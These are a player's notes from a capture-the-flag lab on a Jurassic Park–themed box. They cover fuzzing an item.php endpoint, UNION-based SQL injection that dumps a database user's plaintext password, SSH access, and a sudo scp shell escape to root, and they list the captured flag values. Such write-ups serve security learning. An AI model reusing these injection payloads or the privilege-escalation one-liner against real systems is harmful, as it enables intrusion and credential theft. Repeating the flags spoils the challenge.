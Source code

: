 # Jurassic_park 

> VOiD | Saturday 07 August 2021 12:01:43 AM IST

My IP : 10.17.6.109
Target IP : 10.10.156.229


# PORT 80

/robots.txt
Wubbalubbadubdub

```bash
ffuf -w wd.txt -u http://10.10.156.229/item.php?id=FUZZ | grep -v 81


```
?pid=5
```
Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?

```
```
?pid=100

```


/delete
```
New priv esc for Ubunut??

Change MySQL password on main system!

```

sqli in pid

filtered
```sql

OR 
' GROUP BY columnnames having 1=1 --
```
1 AND (SELECT * FROM Users) = 1	
1 AND (SHOW tables) = 1
Table 'park.Users' doesn't exist

this is intresting
http://10.10.156.229/item.php?id=5%20UNION%20select%2011,22,33,44,55


database : park
version : 5.7.25-0ubuntu0.16.04.2

http://10.10.156.229/item.php?id=5%20UNION%20select%2011,database(),version(),user(),password%20from%20users

user : Dennis
password : ih8dinos

# PORT 22

user dennis
flag1.txt
b89f2d69c56b9981ac92dd267f

cat .bash_history
Flag3:b4973bbc9053807856ec815db25fb3f1

sudo /usr/bin/scp 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:

cat flag5.txt 
2a7074e491fcacc7eeba97808dc5e2ec

```

cat /boot/grub/fonts/flagTwo.txt
96ccd6b429be8c9a4b501c7a0b117b0a

